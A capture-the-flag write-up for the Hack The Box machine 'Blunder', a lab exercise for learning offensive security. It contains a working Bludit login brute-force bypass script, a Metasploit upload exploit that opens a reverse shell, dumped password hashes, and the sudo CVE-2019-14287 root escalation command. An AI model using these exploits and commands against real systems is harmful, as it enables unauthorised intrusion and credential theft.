


---
search:
  exclude: true
---
# Blunder Writeup

## Introduction :

Blunder is an Easy Linux box released back in May 2020.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [Nextcloud/blog]
    → nmap -vvv -p- 10.10.10.191 --max-retries 0 -Pn --min-rate=500 2>/dev/null | grep Discovered
    Discovered open port 80/tcp on 10.10.10.191
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [Nextcloud/blog]
    → nmap -sCV -p 80 10.10.10.191
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-01 10:16 CEST
    Nmap scan report for 10.10.10.191
    Host is up (0.036s latency).
    
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-generator: Blunder
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title: Blunder | A blunder of interesting facts
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 8.00 seconds
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 so let's examine it:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [Nextcloud/blog]
    → gobuster dir -u http://10.10.10.191 -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 50 -x txt,pdf,php,html
    ===============================================================
    Gobuster v3.1.0
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://10.10.10.191
    [+] Method:                  GET
    [+] Threads:                 50
    [+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.1.0
    [+] Extensions:              txt,pdf,php,html
    [+] Timeout:                 10s
    ===============================================================
    2021/06/01 14:36:08 Starting gobuster in directory enumeration mode
    ===============================================================
    /.htpasswd.php        (Status: 403) [Size: 277]
    /.htpasswd.html       (Status: 403) [Size: 277]
    /.gitignore           (Status: 200) [Size: 563]
    /.htaccess            (Status: 403) [Size: 277]
    /.hta.html            (Status: 403) [Size: 277]
    /.htpasswd            (Status: 403) [Size: 277]
    /.git/logs/           (Status: 301) [Size: 0] [--> http://10.10.10.191/.git/logs]
    /.htaccess.pdf        (Status: 403) [Size: 277]
    /.hta                 (Status: 403) [Size: 277]
    /.htpasswd.txt        (Status: 403) [Size: 277]
    /.hta.txt             (Status: 403) [Size: 277]
    /.htaccess.php        (Status: 403) [Size: 277]
    /.htpasswd.pdf        (Status: 403) [Size: 277]
    /.hta.pdf             (Status: 403) [Size: 277]
    /.htaccess.html       (Status: 403) [Size: 277]
    /.hta.php             (Status: 403) [Size: 277]
    /.htaccess.txt        (Status: 403) [Size: 277]
    /0                    (Status: 200) [Size: 7562]
    /LICENSE              (Status: 200) [Size: 1083]
    /about                (Status: 200) [Size: 3281]
    /admin                (Status: 301) [Size: 0] [--> http://10.10.10.191/admin/]
    /cgi-bin/             (Status: 301) [Size: 0] [--> http://10.10.10.191/cgi-bin]
    /install.php          (Status: 200) [Size: 30]
    /robots.txt           (Status: 200) [Size: 22]
    /robots.txt           (Status: 200) [Size: 22]
    /server-status        (Status: 403) [Size: 277]
    /todo.txt             (Status: 200) [Size: 118]
    
    ===============================================================
    2021/06/01 14:38:34 Finished
    ===============================================================
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [Nextcloud/blog]
    → curl http://10.10.10.191/install.php
    Bludit is already installed ;)%                                                                                                                                                                                                                    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [Nextcloud/blog]
    → curl http://10.10.10.191/todo.txt
    -Update the CMS
    -Turn off FTP - DONE
    -Remove old users - DONE
    -Inform fergus that the new blog needs images - PENDING
    
    

So here get hinted towards a **fergus** username, but most importantly we learn that we may have an outdated Bludit instance, and we look at the index page to find it's version:

We can hypothesize that we have a Bludit instance version 3.9.2:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [Nextcloud/blog]
    → searchsploit bludit
    --------------------------------------- ---------------------------------
     Exploit Title                         |  Path
    --------------------------------------- ---------------------------------
    Bludit  3.9.2 - Authentication Brutefo | php/webapps/48746.rb
    Bludit - Directory Traversal Image Fil | php/remote/47699.rb
    Bludit 3.9.12 - Directory Traversal    | php/webapps/48568.py
    Bludit 3.9.2 - Auth Bruteforce Bypass  | php/webapps/48942.py
    Bludit 3.9.2 - Authentication Brutefor | php/webapps/49037.rb
    Bludit 3.9.2 - Directory Traversal     | multiple/webapps/48701.txt
    bludit Pages Editor 3.0.0 - Arbitrary  | php/webapps/46060.txt
    --------------------------------------- ---------------------------------
    Shellcodes: No Results
    
    

First we're going to try and generate a password list using cewl:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [~/HTB/Blunder]
    → cewl http://10.10.10.191 > passwords.txt
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [~/HTB/Blunder]
    → cat passwords.txt| wc -l
    350
    
    

Now there is a [blogpost](https://rastating.github.io/bludit-brute-force-mitigation-bypass/) made by rastating about a Bludit bruteforce mitigation bypass, where he wrote a python script but we're going to modify it as follows:
    
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [~/HTB/Blunder]
    → vim exploit.py
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [~/HTB/Blunder]
    → cat exploit.py
    import re
    import requests
    import sys
    
    host = 'http://10.10.10.191'
    login_url = host + '/admin/login'
    username = 'fergus'
    
    f = open(sys.argv[1], 'r')
    for password in f:
        if 1 == 1:
            password = password.strip()
            session = requests.Session()
            login_page = session.get(login_url)
            csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)
    
            headers = {
                'X-Forwarded-For': password,
                'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
                'Referer': login_url
            }
    
            data = {
                'tokenCSRF': csrf_token,
                'username': username,
                'password': password,
                'save': ''
            }
    
            login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)
            if 'location' in login_result.headers:
                if '/admin/dashboard' in login_result.headers['location']:
                    print()
                    print('SUCCESS: Password found!')
                    print('Use {u}:{p} to login.'.format(u = username, p = password))
                    print()
                    break
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [~/HTB/Blunder]
    → python3 exploit.py passwords.txt
    
    
    [...]
    
    SUCCESS: Password found!
    Use fergus:RolandDeschain to login.
    

Now that we found fergus' password, we're going to use metasploit: 
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [~/HTB/Blunder]
    → msfconsole
    
    msf6 > search bludit
    
    Matching Modules
    ================
    
       #  Name                                          Disclosure Date  Rank       Check  Description
       -  ----                                          ---------------  ----       -----  -----------
       0  exploit/linux/http/bludit_upload_images_exec  2019-09-07       excellent  Yes    Bludit Directory Traversal Image File Upload Vulnerability
    
    
    Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/http/bludit_upload_images_exec
    
    msf6 > use 0
    [*] No payload configured, defaulting to php/meterpreter/reverse_tcp
    msf6 exploit(linux/http/bludit_upload_images_exec) > show options
    
    Module options (exploit/linux/http/bludit_upload_images_exec):
    
       Name        Current Setting  Required  Description
       ----        ---------------  --------  -----------
       BLUDITPASS                   yes       The password for Bludit
       BLUDITUSER                   yes       The username for Bludit
       Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
       RHOSTS                       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<****path>'
       RPORT       80               yes       The target port (TCP)
       SSL         false            no        Negotiate SSL/TLS for outgoing connections
       TARGETURI   /                yes       The base path for Bludit
       VHOST                        no        HTTP server virtual host
    
    
    Payload options (php/meterpreter/reverse_tcp):
    
       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST  10.0.0.10        yes       The listen address (an interface may be specified)
       LPORT  4444             yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Bludit v3.9.2
    
    
    msf6 exploit(linux/http/bludit_upload_images_exec) > set RHOSTS 10.10.10.191
    RHOSTS => 10.10.10.191
    msf6 exploit(linux/http/bludit_upload_images_exec) > set BLUDITUSER fergus
    BLUDITUSER => fergus
    msf6 exploit(linux/http/bludit_upload_images_exec) > set BLUDITPASS RolandDeschain
    BLUDITPASS => RolandDeschain
    msf6 exploit(linux/http/bludit_upload_images_exec) > set TARGETURI /
    TARGETURI => /
    msf6 exploit(linux/http/bludit_upload_images_exec) > set LHOST 10.10.14.13
    LHOST => 10.10.14.13
    msf6 exploit(linux/http/bludit_upload_images_exec) > exploit
    
    [*] Started reverse TCP handler on 10.10.14.13:4444
    [+] Logged in as: fergus
    [*] Retrieving UUID...
    [*] Uploading UPAsUhCpbE.png...
    [*] Uploading .htaccess...
    [*] Executing UPAsUhCpbE.png...
    [*] Sending stage (39282 bytes) to 10.10.10.191
    [+] Deleted .htaccess
    [*] Meterpreter session 1 opened (10.10.14.13:4444 -> 10.10.10.191:56032) at 2021-06-01 14:59:38 +0200
    
    
    meterpreter > sysinfo
    Computer    : blunder
    OS          : Linux blunder 5.3.0-53-generic #47-Ubuntu SMP Thu May 7 12:18:16 UTC 2020 x86_64
    Meterpreter : php/linux
    
    meterpreter > shell
    Process 4491 created.
    Channel 0 created.
    
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)

And we got a reverse shell as www-data! Now as we take a look around we see the following:
    
    
    cd ..
    ls -lash
    total 28K
    4.0K drwxr-xr-x 7 www-data www-data 4.0K Nov 27  2019 .
    4.0K drwxrwxr-x 8 www-data www-data 4.0K Apr 28  2020 ..
    4.0K drwxr-xr-x 3 www-data www-data 4.0K May 19  2020 databases
    4.0K drwxr-xr-x 8 www-data www-data 4.0K Apr 28  2020 pages
    4.0K drwxr-xr-x 3 www-data www-data 4.0K Jun  1 14:07 tmp
    4.0K drwxr-xr-x 5 www-data www-data 4.0K Nov 27  2019 uploads
    4.0K drwxr-xr-x 4 www-data www-data 4.0K Nov 27  2019 workspaces
    
    ls -lash databases
    total 80K
    4.0K drwxr-xr-x 3 www-data www-data 4.0K May 19  2020 .
    4.0K drwxr-xr-x 7 www-data www-data 4.0K Nov 27  2019 ..
    4.0K -rw-r--r-- 1 www-data www-data  438 Apr 28  2020 categories.php
    4.0K -rw-r--r-- 1 www-data www-data 3.4K Apr 28  2020 pages.php
    4.0K drwxr-xr-x 6 www-data www-data 4.0K Nov 27  2019 plugins
     44K -rw-r--r-- 1 www-data www-data  42K Jun  1 14:01 security.php
    4.0K -rw-r--r-- 1 www-data www-data 1.3K May 19  2020 site.php
    4.0K -rw-r--r-- 1 www-data www-data 2.3K Apr 28  2020 syslog.php
    4.0K -rw-r--r-- 1 www-data www-data   52 Apr 28  2020 tags.php
    4.0K -rw-r--r-- 1 www-data www-data 1.3K Apr 28  2020 users.php
    
    cd databases
    cat users.php
    <****?php defined('BLUDIT') or die('Bludit CMS.'); ?>
    {
        "admin": {
            "nickname": "Admin",
            "firstName": "Administrator",
            "lastName": "",
            "role": "admin",
            "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
            "salt": "5dde2887e7aca",
            "email": "",
            "registered": "2019-11-27 07:40:55",
            "tokenRemember": "",
            "tokenAuth": "b380cb62057e9da47afce66b4615107d",
            "tokenAuthTTL": "2009-03-15 14:00",
            "twitter": "",
            "facebook": "",
            "instagram": "",
            "codepen": "",
            "linkedin": "",
            "github": "",
            "gitlab": ""
        },
        "fergus": {
            "firstName": "",
            "lastName": "",
            "nickname": "",
            "description": "",
            "role": "author",
            "password": "be5e169cdf51bd4c878ae89a0a89de9cc0c9d8c7",
            "salt": "jqxpjfnv",
            "email": "",
            "registered": "2019-11-27 13:26:44",
            "tokenRemember": "",
            "tokenAuth": "0e8011811356c0c5bd2211cba8c50471",
            "tokenAuthTTL": "2009-03-15 14:00",
            "twitter": "",
            "facebook": "",
            "codepen": "",
            "instagram": "",
            "github": "",
            "gitlab": "",
            "linkedin": "",
            "mastodon": ""
        }
    }
    
    cat users.php | grep password
            "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
            "password": "be5e169cdf51bd4c878ae89a0a89de9cc0c9d8c7",
    
    cat users.php | grep salt
            "salt": "5dde2887e7aca",
            "salt": "jqxpjfnv",

And here we see that we found potential encrypted credentials:
    
    
    ls -lash /home
    total 16K
    4.0K drwxr-xr-x  4 root  root  4.0K Apr 27  2020 .
    4.0K drwxr-xr-x 21 root  root  4.0K Apr 27  2020 ..
    4.0K drwxr-xr-x 16 hugo  hugo  4.0K May 26  2020 hugo
    4.0K drwxr-xr-x 16 shaun shaun 4.0K Apr 28  2020 shaun
    
    

There are 2 users on the box: hugo and shaun so let's try to crack the 2 passwords:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [~/HTB/Blunder]
    → cat users.txt salt passwords.enc
    hugo
    shaun
     5dde2887e7aca
     jqxpjfnv
    bfcc887f62e36ea019e3295aafb8a3885966e265
    be5e169cdf51bd4c878ae89a0a89de9cc0c9d8c7
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [~/HTB/Blunder]
    → hash-identifier
       #########################################################################
       #     __  __                     __           ______    _____           #
       #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
       #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
       #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
       #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
       #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
       #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
       #                                                             By Zion3R #
       #                                                    www.Blackploit.com #
       #                                                   Root@Blackploit.com #
       #########################################################################
    --------------------------------------------------
     HASH: bfcc887f62e36ea019e3295aafb8a3885966e265
    
    Possible Hashs:
    [+] SHA-1
    [+] MySQL5 - SHA-1(SHA-1($pass))
    
     HASH: be5e169cdf51bd4c878ae89a0a89de9cc0c9d8c7
    
    Possible Hashs:
    [+] SHA-1
    [+] MySQL5 - SHA-1(SHA-1($pass))
    

So here we are hinted towards the passwords being SHA-1 so let's use john to try and crack them, but no, the trick here was to take a step back and see if there were any other passwords to be found !
    
    
    pwd
    /var/www/bludit-3.9.2/bl-content/databases
    
    cd ../../..
    
    ls -lash
    total 20K
    4.0K drwxr-xr-x  5 root     root     4.0K Nov 28  2019 .
    4.0K drwxr-xr-x 15 root     root     4.0K Nov 27  2019 ..
    4.0K drwxr-xr-x  8 www-data www-data 4.0K May 19  2020 bludit-3.10.0a
    4.0K drwxrwxr-x  8 www-data www-data 4.0K Apr 28  2020 bludit-3.9.2
    4.0K drwxr-xr-x  2 root     root     4.0K Nov 28  2019 html
    
    

And here we see that there is a bludit 3.10.0a version ! so let's see if there are any credentials that probably got left behind in there:
    
    
    cd bludit-3.10.0a/bl-content/databases/
    cat users.php
    <****?php defined('BLUDIT') or die('Bludit CMS.'); ?>
    {
        "admin": {
            "nickname": "Hugo",
            "firstName": "Hugo",
            "lastName": "",
            "role": "User",
            "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
            "email": "",
            "registered": "2019-11-27 07:40:55",
            "tokenRemember": "",
            "tokenAuth": "b380cb62057e9da47afce66b4615107d",
            "tokenAuthTTL": "2009-03-15 14:00",
            "twitter": "",
            "facebook": "",
            "instagram": "",
            "codepen": "",
            "linkedin": "",
            "github": "",
            "gitlab": ""}
    }

And here we have the hugo user's encrypted passowrd let's assume that it is also SHA-1 to crack them we can use [crackstation.net](https://crackstation.net/):

Here we see that taking a step back to find hugo's password was the right decision, so let's privesc to the hugo user:
    
    
    su - hugo
    Password: Password120
    id
    uid=1001(hugo) gid=1001(hugo) groups=1001(hugo)
    cat user.txt
    32XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! We managed to get the user flag.

## **Part 3 : Getting Root Access**

Now that's done, the way to find root access onto the box is to check the version of sudo after we spawn a TTY:
    
    
    python -c 'import pty;pty.spawn("/bin/bash")'
    hugo@blunder:~$ sudo -l
    sudo -l
    Password: Password120
    
    Matching Defaults entries for hugo on blunder:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User hugo may run the following commands on blunder:
        (ALL, !root) /bin/bash
    hugo@blunder:~$ sudo --version
    sudo --version
    Sudo version 1.8.25p1
    Sudoers policy plugin version 1.8.25p1
    Sudoers file grammar version 46
    Sudoers I/O plugin version 1.8.25p1
    
    

Here we have an outdated version of sudo which is vulnerable to CVE2019-14287 which is very trivial to exploit:
    
    
    hugo@blunder:~$ sudo -u#-1 /bin/bash
    sudo -u#-1 /bin/bash
    root@blunder:/home/hugo# id
    id
    uid=0(root) gid=1001(hugo) groups=1001(hugo)
    root@blunder:/home/hugo# cat /root/root.txt
    cat /root/root.txt
    53XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! We managed to spawn a root shell and print the root flag.

## **Conclusion**

Here we can see the progress graph :

